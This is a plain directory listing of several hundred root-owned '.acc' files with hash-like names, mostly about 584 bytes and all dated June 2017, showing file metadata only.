-rw-r--r-- 1 root     root      584 Jun 15  2017 3eb4295fbf0b2bac4aa20350246a6b9d.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 3ebc66c0b6e64c060e86daf2ce4c9a31.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 3edf797d706622fab4a57ba0a4af704c.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 3f3b9ba3a75e23bebe956760fff45a30.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 3f5377ebb31e50606f0d2cef73f49130.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 3f7dcbfa9956edfc1c680db5f56258ca.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 3f922da04764d314d9ad4ec29bd24ab7.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 3fc4b2d139b8ecbb0bec75345aeac132.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 3ff2509d974c2f4e36d87dcc7048b4d8.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 401c55932f8f4fbc27765e3b5dea3358.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 409a24500afa25affba8dab727925942.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 40e87fd7e03b66cbc81f8212c842d851.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 412c6df90bfa3a0d05fd7d8ab790d376.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 415e625085a1dcba383d97d16e9b2447.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 4176c547af366f716c6ae37755304425.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 41bc81ccd65b5ae21f181bcdc60a6c62.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 42261debb6bdfc4d709d424616bc18cc.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 4273dec45222434c96a4ebae56a3c840.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 42c5d406ee86e917bcf4cd83d254534b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 430547d637347d0da78509b774bb9fdf.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 43c8b7a50ddfde5aa5fc736406c72423.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 43cb4089654f49c1894024af1d79239c.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 4402cb07ed0509855526702a4ece80f7.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 4476ecd1835548a4ffcb4de3feb21035.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 44987d36fe627d12501b25116c242318.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 45028a24c0a30864f94db632bca0a351.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 450c1b14e8b20b29b1fe9bc23b1f2878.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 453500e8ebb7e50f098068d998db0090.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 4586e7414d7567f91f965d8eb2647a6e.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 45c816e15e480fef2ca867297921cae1.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 45fad7b2ebd71ee55663f9d4c25d1cb6.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 46fcd5bef075246c7d2fd444b41745cb.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 47171c38422e049e50532e6606fa932d.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 4720f8f57866d9631d8d310093883175.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 476845627ec5658e15864a7766fea705.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 476e02d55e6e34295af15309d47acc49.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 47a5b5d54b15c594b0d41ce20c8fb113.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 482e09bc32d62b29b51c9d21a173ec14.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 486d802595c5498539495b30b658a974.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 48b68e11c3d8416e5db820f8dce9a1cc.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 48d9698c1ebba40ba8c4c3bccd69c061.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 49206d1e18aa8eb1c64dae4741639b2f.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 498f1ae1b09e6efbbd19097cdef6cc86.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 4996ea3ca285adb12a03d3dd8cbb4ad0.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 49ddeb6b6e65ce0c4fd7ac9d174e611d.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 4a41cda86cb132771f2e51e480364173.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 4a66b3ce8466bf011adb1dd9d1814452.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 4abf8c9aa0f414abd9bfe187b72461e3.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 4ae6ee6e14e6de520567c8c82b6beded.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 4b00b1be8ef8c5f73901e50d4d09470f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 4bc7b8db43830d6a4957836dc18bf34b.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 4bf0266486768e0fdcd383973f08227e.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 4c13d888bd3ac3c2b1e84b50bf35a85a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 4c6dafa3f684f42869b718b251b292eb.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 4cad3a11b7963ebfc70f703dd4811b96.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 4cf44a4d89128da4127db0bec1048c51.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 4cfb2d50597e6ed2f74334d218e5d8d6.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 4d083a8cf8154cd657341344580196a0.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 4d183c48bf0e826fe9f0248a2bd0ce1f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 4d6d527e8e87c5c6edcd5e189688e377.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 4d7a9044e957b9cb0dffd2f7369667ec.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 4e4d7e09dc5de2768b2f670616457f73.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 4e7da1c5f107c306f55bee851108c402.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 4ebcb090a219d941e56c032cdac43669.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 4ec2f8f0fb700e23fad05ee516540326.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 4f1371b82592d1c8f92b91cf32509e5d.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 4f2ef432bf1238f085d4a4e519a1dfff.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 4f413171a5b4e0b82fd0a14edefcb175.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 4f61cf16aa405cbd9562831b725166f3.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 500b7e7e925fc1810c0081f49f9878aa.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 500f59a56cf27362df6df66852574348.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 50276beac1f014b64b19dbd0e7c6bb1a.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 508c160d0792912147bfb2f29b2bb136.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 50de687c0d3e1925c2e3e96b2a08b664.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 51e3753a2abd98a29f5344424b8a3db3.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 51e6542018c82a48cfe15db8954fbda8.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 5247cc2759787a72747c4376a88356e8.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 52a6f94974c07bd49cd9dc9f89501751.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 530cd80ef0fc59616c7eeed85c147bf4.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 5313f2c7094ceabfc44a02f61643be18.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 539fbd47a23717ee6a38e540e23e3c3b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 53a7aa18611c1cf6bb13eccd34c8d2f9.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 53ee88051634f75d532271d10de0cc06.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 544e693182b1b4ffab54bc0bdd1f216c.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 54656a84fec49d5da07f25ee36b298bd.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 5492f0f786cc84fb1aee7bc3b17d0d4f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 5512bf5534e85f5365db45183a714a26.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 556c5bd821268a5bf9b26de19c644e8d.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 55fef9f64a6faf3ada69a9ae9d098017.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 56215edb6917e27802904037da00a977.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 563738597d410751acc3378aec0e860d.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 56bca21e1e398d9e4ed8d35fcdd21312.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 56c314ff214498c70201785261a86e8b.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 56cf080080911de15d63db43a7c3c659.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 5703d0a083181849782ad1bbda821404.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 57aba757c2e288d93ebedeb80b7c0319.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 57e99d6f54ecdce53adcdd0efe8d00b0.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 5814e18d74c311e709cab1ef69cb7b7e.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 581e4dfc04729f53cb5b461a26b43175.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 5865c9a855bbc327b8a2fc6db3d86917.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 587ca22ea47c6fb4c603e929d0456520.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 58a69d5d011af16b12f0a81107be3d24.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 58e21d4294200a2754f190cd15b4cc27.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 58e63112be4258f4568ef480ef47da5b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 59829e0910101366d704a85f11cfdd15.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 59ce6c145b9ddfc95f0bed4baa6f9197.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 59fa74f31a724ab1383360e255a0e711.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 5a06163947bacb35937b94976524b9e9.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 5a62c5fb945007bed47e6e4c114d3be7.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 5a6f81da012f11f463df711758a7d98c.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 5a8ca8184c7d197a07716f3b239f5f30.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 5a92190fa06db59ca8d12f761ef5df66.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 5b275de0f3930d538d41d38012f9f99f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 5b2fd16a5027dca9714596e1f1900ee1.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 5bc9e0468db90310e045ee1cef02ae49.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 5be15dbd24aa31b6de43c69234a72c19.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 5be5196a9bfbf55be5322576b6cf2ec0.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 5c7fe7fa7cde31ec7f6460dcc866b2c5.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 5ccfc5c5060c6f7eaebc7b360bf1fb5c.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 5cf5a255a6ac6c51fce18b20de1fc6c3.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 5d20c77d44fa9054a4822b2cc42aaf6a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 5d364c970049e9a1ddeab46685ee95c2.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 5da2cf0551e5d9a82e264b842e2fef39.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 5dcd2d4cc2f5ebf971da7b9577313fc6.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 5dde5175da535b073504fa6222da07af.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 5e2554c58bc13c6398bfc3bd3b8bea5a.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 5e496ac0ca6259ee6ddd18c7e784c4bd.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 5e80dca0989d5f4a076146f7aa859c20.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 5ee81d3848dc565d16f84b8023c78d35.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 5f50c17e7e3ffccfd65721e30808a54d.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 5f60a464918c3d8d17940fdd31dd487b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 5f632234377f9af6442ea29d8aff30de.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 5f83801c9d2788e006ac5878415aa113.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 5f9de9bd6cee286315cbe49e5d31c2d0.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 5fbbd0af8aff8f966d119a7de8e123ac.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 60ce46875da3a71989de7d5ff4aea73a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 60de900180b1e32efcd6fddeeaebfdb7.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 610fa1e1fd8a8a74b5da05a6c029473a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 616058320a920bbc1078572b9f1b6b70.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 618a6cf12f8be23f4f425129f4487c53.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 61fbc3bd099c1b5bf6abe0df0246863d.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 6218cd1ca8743a36fabfc189c4e3288c.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 624ab87c34e95964f842598d2a5af800.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 6272e6fde32336fbd46ce0056234965b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 62a7e0ad3a6040bd58bf74b27912aad3.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 631a75b70b8724266b9c50b79a66f580.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 632416bbd8eb4a3480297ea3875ea568.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 63f56536ccbeb53f86180241feedb579.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 640087eae263bd45eb444767ead7dd65.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 6427c41c712d10bde42c5231a058261c.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 64cc0529536e5e6c7a99716743e8736f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 64e321bd2ca29ce92f8794d070dc610a.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 65733941cafa352d30dfbdc7580d023a.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 6575141b4812a7fef638ace04b19d0c7.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 65c2e22dfd5c3cd4ec160c641925aabd.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 65f00eed6eb9cc15e2bb8fdce2fb12cd.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 66284d79b5caa9e6a3dd440607b3fdd7.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 66c7b098bc08fc357766252f3f3e8051.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 6700bd647e3c7f1a577ef7335b64e92e.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 678e183b3178e7921df2a5a7a3a5778b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 679d6fe1e0d242f848e3f919d8c00877.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 67c1530e6d052befe61c27c7935f710e.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 682bbcc46c90afb5e2aa6feb361ba771.acc
-rw-r--r-- 1 root     root      257 Jun 15  2017 68576f20e9732f1b2edc4df5b8533230.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 68c3a3ac26417379fcc695e14aa36f51.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 68e1781b0492331302362108c6ceb81d.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 695cc486245e700b16b43e258ce15ea7.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 6a02166c0d69d4f4a81f0e773923da2f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 6a8727b0306a2efbd5eba6f4026fdf6b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 6aeaa4873136f7d21a3ba00fe3a4bb40.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 6b23ae70d9c694a8f43b0ea455f33223.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 6b5e880f00cb0a06cc7bb8883ca4246b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 6ba0c8a624ae32999847adb2b217017e.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 6bcd10214c86176e8c810b179f87ccf3.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 6c0925ad3a766771c79e7337e33a6d8c.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 6c2baf5043cac2a7bd0ec8ba8067b45b.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 6c4fec2702b25900b66379a02b54ae24.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 6ceca1d2b3c6a95ece973b660500db6a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 6d0b2f0cd5a45ec822d779f9ffb1653a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 6d50c71fb7435ebbece559a5a3b536a7.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 6d5d247ebfc4795d2c83676a43e88d1f.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 6d9666eac9b05c37d68cbcbcb24c7609.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 6e6c81b5d36cda27b14bf5bb52888625.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 6e742f8451c5ec6dc5f531a390c97b7b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 6ed19aeaf42959eb8d96b7eb29e5d3e4.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 6eecbc937801fa028da31d0323077a86.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 6f3d197021dd9b9a089147483e317263.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 6f697ea29832716004b565b9e2a974bb.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 6ff05fe0459f5a96fc0f65ee6a70d5cf.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 7053af4bcb72fce3b093fd4847070f29.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 70adef1fa6974f1fc074f669b5f5228f.acc
-rw-r--r-- 1 root     root      582 Jun 15  2017 70b43acf0a3e285c423ee9267acaebb2.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 70f0b318435ade66c82d93bb770b6ced.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 70fb7ee7eb269c313db283def6ab7d09.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 718772467ce8bd9c269aebb2e25ebd2f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 71aae80069a4da7645691daa3d2c5377.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 71c6d088ffa6532bd971a94224142780.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 71c9fffe15fbafc620deace20b7c5eb6.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 71e11c0830a96debe4d53669c6cb6149.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 71fb6e8200897f051710b9eca09c1957.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 726a000b87b8e3ae49e2d0039a216fc0.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 72b4c66c76496c6b042719aeb851f526.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 72d21e93a5b484619d0a6393ea54d76f.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 72f6e953d2eb1efacaef199dc21aacc1.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 731d836d632dbe827ba83ed1dd904e46.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 73e4380e5ede97598e662531ed11a5fa.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 73eedfa54a99abf8c4223588741118f2.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 74a3863d401f4876b428bb498974a8bf.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 74a61a46248d4caa926e1938aecc6534.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 74dfe9c8d9defeac563057852db6c94d.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 74fe6e35b2588a89adfd936a8b458a53.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 756431ad587f462168df5064b3b829a8.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 758b39c317821013b180ae057bc16d83.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 75942bd27ec22afd9bdc8826cc454c75.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 76123b5b589514bc2cb1c6adfb937d13.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 779a7750a1723d388731bc20c6b05b35.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 77e580bfc95b1c0a89fe3b886dd961f9.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 7804840b63cad3132d2a222818e34766.acc
-rw-r--r-- 1 root     root      582 Jun 15  2017 780a84585b62356360a9495d9ff3a485.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 784e81b0f924ffc73318724185f5ba0c.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 78a312e0b1ac485db1b5a00393f55994.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 78e242e6d759c6e35520071b33f00e97.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 797e1abe1c99424aa7856f6c9f136cfc.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 79b96225cc4705c9d7f4630f1482b6da.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 79d260a20a4bd04419979fddfbb490aa.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 79f06acb23f58e97899738c1b32e0968.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 7a16f1be3e1cce885b855e888d413617.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 7a2a9752443f4328dbb9a5f4431b1f94.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 7a3062ecd98719e7faac95a4efe188ee.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 7a323fcd47afe7cc6248f2fe6e4f8802.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 7a6c81c0e6780f912586590a9bb3d4e9.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 7a747011ee218e9e45365c3169a24754.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 7a7a849d65b57600abea91bb986bdee6.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 7aaeca9d4bb6725b0616597a393a3d7d.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 7ad216b66bbc8be33e71e9b75b974398.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 7af56b5821f745df33ba3a5fb0dd7009.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 7b38a14ce39bdd4b91eb69ec02a81f84.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 7b7cc0505cee71ab02c533fd2db29cde.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 7bd2b3a05795e2d216cac59bb405f079.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 7bee4f51ff23066e9e909ac84873e9c6.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 7c92466f303a24f50b2880870dea0610.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 7c935e676daa9216ac53412b7a47c1f1.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 7cc381a31b1252eb63067fef61319152.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 7ceed45c2f5a9b3d39155cc8099b1d4a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 7d759940684fb5fdf8bb7c0749ca302f.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 7d7dff306be634f864e92a6b038dea8b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 7d882d79b353d4329ec6f61fdaf4dbfd.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 7dc9403b60d10a21d8f44bf9948095dc.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 7dd19db14bcaff9c2ab24ceef3217014.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 7dece92a80bd61d390d0589b118234d1.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 7df22b5113da890e88705dde5b8a9871.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 7e16990ea08e7d261645c60447ae412f.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 7e4cf8e1c1950a8e1da8e937901ff657.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 7e65bc0bdba7609f0fb85f5411e79163.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 7e8730a34c228f96819155f5f29eeeb9.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 7ee435673a9a537131903ce74fe908f7.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 7f44276326c185b7e8bf1cb2ae0c02e3.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 7f4d9c6e8a185bd54a2bb3266b239f35.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 80416d8aaea6d6cf3dcec95780fda17d.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 805c369e5114713021dbb49b374845c1.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 8087166ea0cbc15e43de374cc4179424.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 80d73c3bbdc077edb98daec9ff26d933.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 8116eebed5657173e44eac5f834c6dd7.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 823e6084e33c3cbf609bcb946fbb5098.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 828bceeca877d2c73e5836d11e1d832b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 82c22539af6f7d928133b7b1f8abeeec.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 82c3d67857c36d3f97535a6d211272e3.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 8417fa43902ff7f26fb4cf87f0d428a1.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 844cebf2af0bfdde679e8e72d2337717.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 845b82de5081018fcbbd55e63cbd04c9.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 848e888aa97a6370a04b077d7de5a565.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 84cf9f79d28237d50c98ba165b000bab.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 84d39f534a1a7ce6f151c0a6d5c1e6c3.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 84f283b21104e9172dbf083a86cb1da9.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 84f8b63a767058af39d96477fa557487.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 85006f1266226e84efb919908d5f8333.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 8554f463517b7f7f70c2e0a8b3e72b64.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 855b1ce8edf8b2e059444b290b678210.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 8578a01a81a21685c098b08d4a3514a0.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 858a0d9ead484a5452940683dfe75356.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 858d42e024586e34cf961bcd8c52fc26.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 85e9087a32f5f9ccf8eab9fe2acf9e7d.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 860826651b3c5c5f11cbc9985b9c53e0.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 86afd07fd9b3e161d4110a05efbc4567.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 86d458e4636c5aaac4985f7521ee6639.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 874792fab530aed50b38b26f2a8c1870.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 87831b753b8530fddc74e73ca8515a50.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 879f0957ad3ed3f46f2bef382fcde256.acc
